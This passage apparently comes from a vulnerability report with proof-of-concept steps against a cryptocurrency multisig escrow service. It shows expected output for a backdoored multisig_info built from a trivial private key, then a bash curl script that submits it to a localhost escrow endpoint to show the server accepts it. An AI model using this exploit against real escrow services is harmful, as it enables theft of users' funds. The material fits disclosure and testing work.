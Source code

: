 **Expected Output:**
```
[*] Malicious multisig_info generated:
    Address: 9wHq7XM...
    Info: MultisigV1a7f3d8e2c1b9f4...
    Length: 142 chars

[!] This multisig_info will PASS server validation:
    ✅ Length >= 100: True
    ✅ Length <= 5000: True

[!] But attacker KNOWS the private key!
    Private key: 000000000000000000000000000000000000000000000000000000000000001
```

---

### POC 2: Submit Malicious Info to Server

**Target:** Prove server accepts backdoored multisig_info

```bash
#!/bin/bash
# POC: Submit malicious multisig_info to escrow endpoint

ESCROW_ID="abcd-1234-5678-90ef"
USER_TOKEN="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
MALICIOUS_INFO="MultisigV1a7f3d8e2c1b9f4..."  # From POC 1

echo "[*] Submitting malicious multisig_info to server..."

response=$(curl -X POST "http://localhost:8080/api/escrow/$ESCROW_ID/prepare" \
    -H "Authorization: Bearer $USER_TOKEN" \
    -H "Content-Type: application/json" \
    -d "{\"multisig_info\": \"$MALICIOUS_INFO\"}" \
    -w "%{http_code}" \
    -s)

http_code="${response: -3}"
body="${response:0:-3}"

if [ "$http_code" == "200" ]; then
    echo "[!] SUCCESS: Server accepted malicious multisig_info!"
    echo "[!] Response: $body"
    echo ""
    echo "[!] Escrow is now COMPROMISED - attacker controls one key"
else
    echo "[!] FAILED: Server rejected multisig_info"
    echo "[!] HTTP $http_code: $body"
fi
```

**Expected Output:**
```
[*] Submitting malicious multisig_info to server...
[!] SUCCESS: Server accepted malicious multisig_info!
[!] Response: {"status": "ok", "collected": 1}

[!] Escrow is now COMPROMISED - attacker controls one key
```

---